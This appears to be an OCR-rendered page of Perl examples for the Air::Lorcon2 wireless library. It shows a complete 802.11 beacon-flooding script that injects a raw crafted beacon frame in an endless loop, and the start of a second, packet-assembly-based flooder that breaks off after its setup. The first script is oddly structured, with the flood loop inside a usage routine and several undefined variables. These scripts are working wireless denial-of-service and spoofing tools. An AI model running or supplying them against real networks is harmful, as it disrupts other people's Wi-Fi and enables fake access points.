 ```perl

# consider $lorcon like context on Lorcon2

sub usage() {
	print $0," - Simple 802.11 beacon flooder";
	print "-----------------------------------------------------\n" ;
	my $interval = 100;
	my $packet = "\x80\x00\xff\xff\xff\xff\xff\xff\xff\xff\x00\x0f\x66\xe3\xe4\x03\x00\x0f\x66\xe3\xe4\x03\x00\x00\xff\xff\xff\xff\xff\xff\xff\xff\x64\x00\x11\x00\x00\x0f\x73\x6f\x6d\x65\x74\x68\x69\x6e\x67\x63\x6c\x65\x76\x65\x72\x01\x08\x82\x84\x8b\x96\x24\x30\x48\x6c\x03\x01\x01\x05\x04\x00\x01\x00\x00\x2a\x01\x05\x2f\x01\x05\x32\x04\x0c\x12\x18\x60\xdd\x05\x00\x10\x18\x01\x01\xdd\x16\x00\x50\xf2\x01\x01\x00\x00\x50\xf2\x02\x01\x00\x00\x50\xf2\x02\x01\x00\x00\x50\xf2\x02";

		my $drv = lorcon_find_driver( $driver ) or die $!;
		my $lorcon = lorcon_create( $interface, $driver ) or die $!;
		lorcon_open_injmon( $lorcon ) or die lorcon_get_error( $lorcon );
		my $vap = lorcon_get_vap( $lorcon ) or die lorcon_get_error( $lorcon );
		if(! undef( $vap ) ){
			print "[+]\t Monitor mode VAP: $vap\n";
			}

		# set the channel to inject
		lorcon_set_channel( $channel ) or die lorcon_get_error( $lorcon );
		sleep(1);
		print "using CHANNEL:  $channel\n"; 
		# flooding part
		my $sliptime = int( $interval / 1000 );
		while(1){
			lorcon_send_bytes( $lorcon, length( $packet ), $packet ) or die lorcon_get_error( $lorcon );
			sleep( $sliptime );
		
			}
		lorcon_close( $lorcon ) or die $!;
}

&usage();
```

**Create lcpa-based Beacon flooder**

```perl
#!/usr/bin/perl

# Made by Edoardo Mantovani, 2020

#	Perl version of beacon_flood_lcpa.c (original author: brad.antoniewicz@foundstone.com)
#	simple IEEE 802.11 beacon flooder using Air::lorcon2 
#	packet assembly functionality

use strict;
use warnings;
use Air::Legacy qw( :lorcon );

my $SSID = shift or die "./beacon_flood_lcpa.pl <SSID> <interface> <driver> <channel>\n";
my $interface = shift or die "./beacon_flood_lcpa.pl <SSID> <interface> <driver> <channel>\n";
my $driver = shift or die "./beacon_flood_lcpa.pl <SSID> <interface> <driver> <channel>\n";
my $channel = shift or die "./beacon_flood_lcpa.pl <SSID> <interface> <driver> <channel>\n";

my $mac  = "\x00\xDE\xAD\xBE\xEF\x00";

my $rates = "\x8c\x12\x98\x24\xb0\x48\x60\x6c"; 

my $Interval = 100;
```